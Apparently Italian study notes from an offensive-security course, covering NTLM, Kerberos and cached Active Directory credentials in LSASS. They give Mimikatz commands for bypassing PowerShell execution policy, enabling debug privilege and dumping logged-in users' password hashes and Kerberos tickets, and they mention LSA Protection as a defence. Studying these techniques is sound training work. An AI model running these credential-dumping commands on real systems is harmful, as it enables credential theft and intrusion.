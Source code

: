 # 22.1. Understanding Active Directory Authentication

## 22.1.1. NTLM Authentication

![[NTLM.png]]

## 22.1.2. Kerberos Authentication

![[Kerberos.png]]

## 22.1.3. Cached AD Credentials

Nelle moderne versioni di Windows, gli hash delle password sono conservati all'interno dello spazio di memoria _Local Security Authority Subsystem Service_ (LSASS). Per accedere a questo spazio di memoria occorrono privilegi elevati (SYSTEM or local administrator).

Un modo per difendersi da tool come _Mimikatz_ consiste nell'abilitare la _LSA Protection.

```bash
powershell -ep bypass
.\mimikatz.exe
```

Abilitazione del privilegio _SeDebugPrivlege_ che permette di interagire con processi in possesso di altri account:

```bash
privilege::debug
```

Recupero degli hash collegati agli utenti loggati alla macchina corrente:

```bash
sekurlsa::logonpasswords
```

Un modo diverso di utilizzare _Mimikatz_ consiste nell'utilizzo dei _TGT_ e dei _service tickets_. Infatti, anche i tickets sono conservati all'interno di LSSAS e quindi è possibile sfruttarli per recuperare ticket.

Nel caso preso in esame viene fatta prima una richiesta di connessione ad uno share SMB (dir \\web04.corp.com\backup) e successivamente lanciato questo comando:

```bash
sekurlsa::tickets
```

# 22.2. Performing Attacks on Active Directory Authentication

## 22.2.1. Password Attacks
